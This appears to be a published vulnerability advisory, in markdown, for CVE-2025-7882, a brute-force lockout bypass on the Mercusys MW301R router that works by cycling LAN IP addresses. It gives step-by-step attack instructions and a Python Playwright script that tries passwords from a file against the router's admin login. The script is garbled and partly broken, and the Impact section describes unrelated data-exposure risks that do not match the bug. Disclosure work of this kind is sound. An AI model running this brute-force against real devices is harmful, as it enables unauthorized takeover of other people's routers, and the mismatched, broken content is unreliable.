





## CVE-2025-7882: Brute Force Bypass via IP Cycling

> *CVE Publication: https://www.cve.org/CVERecord?id=CVE-2025-7882*

## Summary

<p style="text-align: justify;">The Mercusys MW301R router implements a basic brute-force protection mechanism that blocks login attempts after a number of failed tries. However, this blocking mechanism is based solely on the source IP address, without enforcing any session fingerprinting, token validation, or advanced rate-limiting / and MAC Address, etc.</p>

## Details

<p style="text-align: justify;"></p>An attacker connected to the LAN can simply change their local IP address (e.g., from 192.168.1.10 to 192.168.1.11) after reaching the limit, effectively resetting the login attempt counter. </br> This allows a brute-force attack to be performed against the admin login page, completely defeating the intended security mechanism.

<p style="text-align: justify;">
<ol>
  <li>
    Connect to the same local network as the router (default gateway: <code>192.168.1.1</code>) to prepare the attack environment.
  </li>
  <li>
    Start brute-force login attempts by sending requests with different password values. After a few failures, the router will block further attempts from that IP address.
  </li>
  <li>
    To bypass the block, change your device’s IP address to another one within the allowed range, then continue the brute-force process from the new IP.
  </li>
  <li>
    Repeat this process—each time your IP is blocked, switch to another IP between <code>192.168.1.4</code> and <code>192.168.1.254</code> and resume the attack.
  </li>
</ol>
</p>

## Exploit Code:

````python
import time from playwright.sync_api import Playwright, sync_playwright

def carrega_senhas(caminho_arquivo: str) -> list[str]: with open(caminho_arquivo, "r", encoding="utf-8") as f: return [linha.strip() for linha in f if linha.strip()]

def tenta_login(page, senha: str) -> bool: page.goto("http://192.168.1.1/") page.get_by_role("textbox", name="Senha de Login").fill(senha) page.get_by_role("textbox", name="Senha de Login").press("Enter") time.sleep(1) try: page.get_by_text("Avançado", exact=True, timeout=2000) return True except: return False

def run(playwright: Playwright) -> None: browser = playwright.chromium.launch(headless=False) context = browser.new_context() page = context.new_page()

senhas = carrega_senhas("senhas.txt", "")
for idx, senha in enumerate(senhas, 1):
    print(f"[{idx}/{len(senhas)}] Testando senha: {senha!r}")
    if tenta_login(page, senha):
        print(f">>> Sucesso! Senha encontrada: {senha!r}")

        page.get_by_text("Avançado", exact=True).click()
        break
else:
    print("Nenhuma senha funcionou.")

context.close()
browser.close()

if name == "main": with sync_playwright() as playwright: run(playwright) r
````

## PoC











### Video PoC

[https://youtu.be/_t3ZC8zU4-A](https://youtu.be/_t3ZC8zU4-A)

## Impact

<p style="text-align: justify;">The lack of session validation in this endpoint can lead to several security risks:</p>

<p style="text-align: justify;">
  <ul>
    <li><b>Unauthorized Data Exposure:</b> Unauthenticated users can enumerate or retrieve sensitive internal data.</li>
    <li><b>Privilege Escalation:</b> Attackers might access or infer information intended only for authorized users.</li>
    <li><b>Information Disclosure:</b> Business logic and internal IDs (like user roles or permissions) can be leaked.</li>
    <li><b>Reconnaissance Support:</b> Facilitates attackers in mapping backend structures for more targeted attacks.</li>
  </ul>
</p>

## Reference

[https://github.com/RaulPazemecxas/PoCVulDb/blob/main/CVE-2025-7882.md](https://github.com/RaulPazemecxas/PoCVulDb/blob/main/CVE-2025-7882.md)

## Finder

[](https://github.com/%20%20www.linkedin.com/in/raul-pazem%C3%A9cxas-04882b21a/) [Raul Pazemécxas](https://github.com/%20%20www.linkedin.com/in/raul-pazem%C3%A9cxas-04882b21a/)

> *By: [CVE-Hunters](https://github.com/CVE-Hunters/cve-hunters)*